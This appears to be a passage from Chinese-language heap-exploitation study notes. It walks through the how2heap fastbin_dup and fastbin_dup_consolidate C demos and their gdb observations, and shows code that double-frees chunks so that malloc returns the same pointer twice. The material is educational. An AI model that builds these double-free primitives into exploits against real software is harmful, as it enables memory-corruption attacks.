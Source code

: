 ```c
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
	a = malloc(8);
	b = malloc(8);
	c = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	assert(a == c);
}
```

gdb这个过程，执行到代码19行时，chunk a 进入fastbin ，根据fastbin特性chunk a成为fastbin的表头。

![image-20210312114855200](image-20210312114855200.png)

执行到代码25行时，chunk b 进入fastbin ，根据fastbin特性chunk b成为fastbin的表头。

![image-20210312115643868](image-20210312115643868.png)

执行到代码28行时，我们再次free a ，可以看到chunk a再次被释放成为fastbin的表头。

![image-20210312120347309](image-20210312120347309.png)

看到此时chunk a 的fd指向chunk b ，chunk b 的fd指向chunk a。这样我们 无论申请多少chunk其指针都会是chunk a 的指针和chunk b的指针之间。

#### fastbin_dup_consolidate

同时，libc 在分配large chunk时，如果fastbins不为空则会调用malloc_consolidate函数合并fastbin到chunk并放入 unsorted bin。再将合并后的chunk 取出放到合适的bins中。此时fastbin会被清空。

借用how2heap的fastbin_dup_consolidate c语言代码来描述这个过程：

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
```